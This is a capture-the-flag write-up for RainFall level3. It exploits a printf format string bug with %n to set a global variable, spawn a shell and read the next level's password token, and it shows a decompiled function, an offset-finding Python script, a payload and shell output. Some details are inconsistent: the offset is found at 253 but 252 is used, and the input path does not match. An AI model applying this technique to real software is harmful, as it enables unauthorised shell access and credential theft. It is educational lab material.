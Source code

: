 # level3

The `main` function of this exercise calls a function called `v` :

```c
void v(void) {
	char buffer[520];
	fgets(buffer, 512, stdin);
	printf(buffer);
	if (m == 64) {
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
	return;
}

This code might seems normal at a first glance, however `printf` only has one argument. Which means that this code is vulnerable to a format string attack.

The variable `m` is a global variable that is set to 0, so we somehow have to set it to 64 in order to get a shell.

This could be done using the `%n` format specifier, which writes the number of printed characters to the address of the argument.

To exploit this binary there are few requirements:

1. The address of `m` needs to be known
2. The address of `m` must be on the stack
3. We need to know how many elements we have to skip/pop from the stack before we reach the address of `m`

The address of `m` can be found using `objdump`:

```bash
$ objdump -t level3 | grep \.bss | grep m
0804988c g     O .bss   00000004              m
```
To find out how many elements we have to skip we can use a custom python script:

```python
import subprocess
import sys
args = ["./level3", "AAAA"]

for i in range(0, 256):
	p = subprocess.Popen(args, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
	payload = "%{}$x\n".format(i)
	p.stdin.write(payload)
	p.stdin.flush()
	out = p.stdout.readline().strip()
	if out == "41414141":
		print("Found at index {}".format(i))
		break
```

> Found at index 253

So we have to push our stack address, then write 64 characters and then use the `%n` to write the number of printed characters to the address of `m`.

```python
import struct
with open("/tmp/payload", "wb") as f:
	f.write(struct.pack("I", 0x0804988c))
```

```bash
level3@RainFall:~$ ./level3 `cat /tmp/payload`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%252$n
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
$ id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
$ cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
